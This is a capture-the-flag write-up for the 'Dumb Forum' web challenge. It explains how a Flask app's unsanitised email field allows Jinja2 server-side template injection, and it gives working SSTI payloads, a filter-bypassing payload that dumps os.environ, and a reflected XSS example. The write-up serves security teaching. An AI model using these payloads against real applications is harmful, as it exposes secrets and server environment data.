

# Dumb Forum

Categories: Web

Description:
> You're telling me you can't break such a simple forum?
> 
> Author: @italianconcerto
> 
> [Source code](https://ctf.m0lecon.it/attachments/4556298b70b1418eb3269b0c0a762f43/dumbforum.zip)

**Tags:** SSTI, Jinja2, Jinja2 dump, Jinja2 internals, Restricted character set

## Takeaways

* SSTI example
* Jinja2 internals
* [tplmap](https://github.com/epinna/tplmap) can assist in finding reflected SSTI vulnerabilities (not limited to jinja2). It also applies a few sandbox escape techniques.

## Solution

Upon vising the website we are presented with the following page.


It is a forum web app, where you create an account and then you can make posts. So let's dive into the source code.

Doing a `grep . -nrie "flag"` we find out that the flag is in the environment variables of the container. So, we somehow have to figure out a way to perform a remote code execution on the server and read the environment variables (such as from `/proc/self/environ`) to get the flag.

Let's look into the code to try and find the vulnerability.

```python
@app.route('/profile', methods=['GET', 'POST'])
@login_required
def profile():
    with open('app/templates/profile.html') as p:
        profile_html = p.read()
    
    profile_html = profile_html % (current_user.username, current_user.email, current_user.about_me)
    if(current_user.about_me == None):
        current_user.about_me = ""

    return render_template_string(profile_html)
```

This part looks super suspicious and unsafe. This is not the standard way to populate a flask template.

```html
<!-- Part of profile.html -->
<div class="center">
    <h5 class="card-title">Username: %s</h5>
    <p>Email: %s</p>
    <p class="">About me: %s</p>
    <a href="{{ url_for('edit_profile') }}" class="btn btn-primary">Edit Profile</a>
</div>
```

This seems like a Server Side Template Injection (SSTI) attack. Let's see if we can inject our malicious code in either of the three parameters (username, email, aboutme).

```python
class EditProfileForm(FlaskForm):
    username = StringField('Username', validators=[DataRequired()])
    about_me = TextAreaField('About me', validators=[Length(min=0, max=1000)])
    submit = SubmitField('Submit')

    def __init__(self, original_username, *args, **kwargs):
        super(EditProfileForm, self).__init__(*args, **kwargs)
        self.original_username = original_username

    def validate_username(self, username):
        for c in "}{":
            if c in username.data:
                abort(400) # Please use valid characters.
        if username.data != self.original_username:
            user = User.query.filter_by(username=self.username.data).first()
            if user is not None:
                abort(409) # Please use a different username.

    def validate_about_me(self, about_me):
        for c in "}{":
            if c in about_me.data:
                abort(400)
```

The `EditProfileForm` is submitted when we edit our profile, where we can modify our username and the aboutme section. As we can see, both fields are checked to see if they contain the characters `{` or `}`, so no template injection is possible here. 

### *&lt;XSS detour&gt;*

Feel free to skip this.

Reflected XSS is totally possible here in the `/profile` endpoint, both in the username and the aboutme. For example, you can set the username to

```html
<div style="background-color: #be0e0ede; height: 100px;" >
  <p>Totally unsafe username</p>
</div>
```



But to get the flag this is irrelevant. Still, a fun thing to notice.

### *&lt;/XSS detour&gt;*

Let's also check the registration form

```python
class RegistrationForm(FlaskForm):
    username = StringField('Username', validators=[DataRequired()])
    email = StringField('Email', validators=[DataRequired(), Email()])
    password = PasswordField('Password', validators=[DataRequired()])
    password2 = PasswordField('Repeat Password', validators=[DataRequired(), EqualTo('password')])
    submit = SubmitField('Register')

    def validate_username(self, username):
        for c in "}{":
            if c in username.data:
                raise ValidationError('Please use valid characters.')
        user = User.query.filter_by(username=username.data).first()
        if user is not None:
            raise ValidationError('Please use a different username.')

    def validate_email(self, email):
        user = User.query.filter_by(email=email.data).first()
        if user is not None:
            raise ValidationError('Please use a different email address.')
```

Again the username is sanitized. However, the email is not checked for a template injection and is populated in the unsafe way that we saw earlier. The only requirement is that it has to pass the `Email()` validation. Let's try some SSTI payloads found across the internet (with the ultimate goal to dump environment variables)

```txt
1. {{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG]}}

2. {{config.items()}}

3. {{ [].class.base.subclasses() }}

4. {{ config.items()[4][1].__class__.__mro__[2].__subclasses__()[40]("/proc/self/environ").read() }}
```

But none of them worked. We always get "Invalid email address"


Hmm. This has to do with how the email validation is done, so let's check the code from the [flask library](https://github.com/JoshData/python-email-validator/blob/main/email_validator/__init__.py#L261)

```python
# simplified version
def validate_email(email):
    parts = email.split('@')
    if len(parts) != 2:
        raise EmailSyntaxError("must have exactly one @-sign.")
    validate_email_local_part(parts[0])
    validate_email_domain_part(parts[1]) # more strict than part[0] validation

def validate_email_local_part(local):
    if len(local) == 0:
        raise EmailSyntaxError("There must be something before the @-sign.")
    if len(local) > 64:
        raise EmailSyntaxError("The email address is too long before the @-sign")
    
    ATEXT = r'a-zA-Z0-9_!#\$%&\'\*\+\-/=\?\^`\{\|\}~'
    DOT_ATOM_TEXT='[' + ATEXT + ']+(?:\\.[' + ATEXT + ']+)*'
    if not re.match(DOT_ATOM_TEXT + "\\Z", local):
        raise EmailSyntaxError("Illegal characters")
    # validation passed!
```

So, in the `ATEXT` regex, we do not see anywhere the parentheses, so these are not allowed. This means that function calls are not possible. Fortunately, we see `{` and `}`, so SSTI is still possible. We will have to access `.os.environ` to get the flag. We also see that the first part of the email is limited to only 64 characters. Let's see how we can construct such a payload.

### Detour to `jinja2` internals

At this point, I do not know much about jinja2 internals nor how to traverse all fields of an object. So, I thought it would be a good idea to play around a bit

```python
from jinja2.runtime import TemplateReference
from jinja2 import Template
import jinja2
import os

def echo(x):
    return str(x)

In [66]: Template("My name is {{ func('foo') }} ").render(module=os, func=echo)
Out[66]: 'My name is foo '

In [67]: Template("My name is {{ echo('foo') }} ").render()
Out[67]: UndefinedError: 'echo' is undefined
```

So this is a way to pass function to a jinja2 template and then use them inside.

```python
In [69]: Template("My name is {{ self }} ").render()
Out[69]: 'My name is <TemplateReference None> '
```

So, from just `self`, I have no idea how can I reach the `os` module. So, I decided to just dump every accessible member with a crappy script

(*Side note:* I first tried dumping `self` with JSON but it would complain about cyclic references. Can't blame it.)

```python
# Not 100% complete on the dump
def dfs_dump_full(obj, visited=[], indent=0, prefix=[]):
    if obj in visited:
        res = '<visited'
        if hasattr(obj, '__call__') and hasattr(obj, '__globals__'): # function
            res += ':' + str(obj)
        res += '>'
        return res
    visited.append(obj)

    if isinstance(obj, dict) or str(type(obj)) == "<class 'mappingproxy'>":
        res  = '\n'
        res += ' '*indent + '{\n'
        for k,v in obj.items():
            res += ' '*(indent+4) + '.'.join(prefix) + '.' + str(k) + ':'
            if k == '__doc__':
                res += '<skipped-doc>'
            else:
                res += dfs_dump_full(v, visited, indent+4, prefix+[str(k)])
            res += ",\n"
        res += ' '*indent + '}'
    
    elif hasattr(obj, '__call__') and hasattr(obj, '__globals__'): # function
        res  = ' ' + str(obj) + '\n'
        res += ' '*indent + '__globals__:'+ dfs_dump_full(getattr(obj, '__globals__'), visited, indent, prefix+['__globals__'])
    elif hasattr(obj, '__dict__'):
        return dfs_dump_full(obj.__dict__, visited, indent, prefix)
    else:
        res  = ' '*indent
        res += str(obj)
    return res

s = Template("My name is {{ func(self) }}").render(module=json, func=dfs_dump_full)
prnt(s)
```

The code looks ugly, but we can run it and save the above output in jinja2.TemplateReference.dump file. If we [open the dump file](jinja2.TemplateReference.dump), it is in a nice format though.

Searching for the regex `\.environ:` we can see that we can find it in `os` or `_os` modules. So let's search for the regex `\.((os)|(_os)):` and try to find the the match with the shortest prefix

`_TemplateReference__context.parent.lipsum.__globals__.os:`

This is also the shortest path towards `_TemplateReference__context` and `lipsum` (or so I wrongly thought for `lipsum` - my script is not complete). So, does the following payload suffice?

`self._TemplateReference__context.parent.lipsum.__globals__.os.environ`

No. It is too long - 69 characters. So it is still not short enough to pass the filter. Okay how about another approach. With our dump, we have a kind of a good idea about the internal layout of `self`. But what class does `self` represent?

```python
In [70]: Template("My name is {{ self.__class__ }} ").render()
Out[70]: "My name is <class 'jinja2.runtime.TemplateReference'> "
```

Let's also check the source code of the [TemplateReference class](https://tedboy.github.io/jinja2/_modules/jinja2/runtime.html#TemplateReference).

```python
import sys
# ... #
class TemplateReference(object):
    """The `self` in templates."""

    def __init__(self, context):
        self.__context = context
    # ... #
```

As we can see, it is importing the `sys` module. But from our dump, we can see that we can reach `os` from `sys`: `sys.modules.os`. So, `sys` is in the global variables of the `__init__` function. So, putting all things together, our final payload is:

`self.__init__.__globals__.sys.modules.os.environ`

and if we test it locally, it indeed works

```python
In [71]: Template("My name is {{ self.__init__.__globals__.sys.modules.os.environ }} ").render()
Out[71]: "My name is environ({'SHELL': '/bin/bash', 'SESSION_MANAGER': 'local/ctf-box:@/tmp/.ICE-unix/2184,unix/ctf-box:/tmp/.ICE-unix/2184', 'PYENV_HOOK_PATH': ...}) "
```

### Grabbing the flag

So, the email will be `{{self.__init__.__globals__.sys.modules.os.environ}}@fane.com`. The first part is 52 characters long, so it passes the length check, and also passes the regex check. Let's try that


And we have successfully registered! Let's login and check our `/profile` vulnerable page.


We have successfully performed remote code execution! The flag is

`ptm{d1d_u_f1nd_th3_r1ckr0ll?}`
